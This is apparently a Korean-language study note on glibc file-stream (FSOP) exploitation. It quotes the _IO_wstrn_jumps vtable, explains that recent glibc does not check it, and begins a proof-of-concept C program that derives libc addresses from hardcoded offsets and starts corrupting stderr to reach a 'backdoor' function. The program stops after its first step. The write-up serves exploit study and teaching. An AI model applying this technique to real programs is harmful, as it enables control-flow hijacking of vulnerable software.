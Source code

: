 ```c
const struct _IO_jump_t _IO_wstrn_jumps libio_vtable attribute_hidden =
{
  JUMP_INIT_DUMMY,
  JUMP_INIT(finish, _IO_wstr_finish),
  JUMP_INIT(overflow, (_IO_overflow_t, _IO_wstrn_overflow),
  JUMP_INIT(underflow, (_IO_underflow_t) _IO_wstr_underflow),
  JUMP_INIT(uflow, (_IO_underflow_t) _IO_wdefault_uflow),
  JUMP_INIT(pbackfail, (_IO_pbackfail_t) _IO_wstr_pbackfail),
  JUMP_INIT(xsputn, _IO_wdefault_xsputn),
  JUMP_INIT(xsgetn, _IO_wdefault_xsgetn),
  JUMP_INIT(seekoff, _IO_wstr_seekoff),
  JUMP_INIT(seekpos, _IO_default_seekpos),
  JUMP_INIT(setbuf, _IO_default_setbuf),
  JUMP_INIT(sync, _IO_default_sync),
  JUMP_INIT(doallocate, _IO_wdefault_doallocate),
  JUMP_INIT(read, _IO_default_read),
  JUMP_INIT(write, _IO_default_write),
  JUMP_INIT(seek, _IO_default_seek),
  JUMP_INIT(close, _IO_default_close),
  JUMP_INIT(stat, _IO_default_stat),
  JUMP_INIT(showmanyc, _IO_default_showmanyc),
  JUMP_INIT(imbue, _IO_default_imbue)
};
```
최신 GLIBC에서, 해당 vtable에 대해서는 검사를 하지 않기 때문에 `vtable 영역`에 해당 주소가 존재하지 않아도 된다. 이를 통해 control flow를 조작한다.

- IO_wdefault_xsgetn
```c
#include<stdio.h>
#include<stdlib.h>
#include<stdint.h>
#include<unistd.h>
#include <string.h>

void backdoor()
{
    printf("\033[31m[!] Backdoor is called!\n");
    _exit(0);
}

void main()
{
    setbuf(stdout, 0);
    setbuf(stdin, 0);
    setbuf(stderr, 0);

    char *p1 = calloc(0x200, 1);
    char *p2 = calloc(0x200, 1);
    puts("[*] allocate two 0x200 chunks");

    size_t puts_addr = (size_t)&puts;
    printf("[*] puts address: %p\n", (void *)puts_addr);
    size_t libc_base_addr = puts_addr - 0x84420;
    printf("[*] libc base address: %p\n", (void *)libc_base_addr);

    size_t _IO_2_1_stderr_addr = libc_base_addr + 0x1ed5c0;
    printf("[*] _IO_2_1_stderr_ address: %p\n", (void *)_IO_2_1_stderr_addr);

    size_t _IO_wstrn_jumps_addr = libc_base_addr + 0x1e8c60;
    printf("[*] _IO_wstrn_jumps address: %p\n", (void *)_IO_wstrn_jumps_addr);
 
    char *stderr2 = (char *)_IO_2_1_stderr_addr;
    puts("[+] step 1: change stderr->_flags to 0x800");
```